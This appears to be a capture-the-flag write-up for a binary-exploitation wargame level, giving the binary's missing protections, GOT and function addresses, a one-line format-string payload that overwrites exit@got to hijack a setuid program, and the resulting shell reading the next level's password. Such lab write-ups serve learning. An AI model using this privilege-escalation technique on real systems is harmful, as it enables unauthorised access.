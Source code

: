 # level5

## Header

```bash
ssh level5@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

<hr>

## Solution
0x8049838 - exit@got.plt
0x80484a4 - addr of o
0x84a4 = 33956
0x0804 = 2052

(python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"'; cat) | ./level5


```bash
whoami
level6
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
pwd
/home/user/level5
cd ../level6
ls -la   
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## References

https://www.youtube.com/watch?v=t1LH9D5cuK4 Perfect video!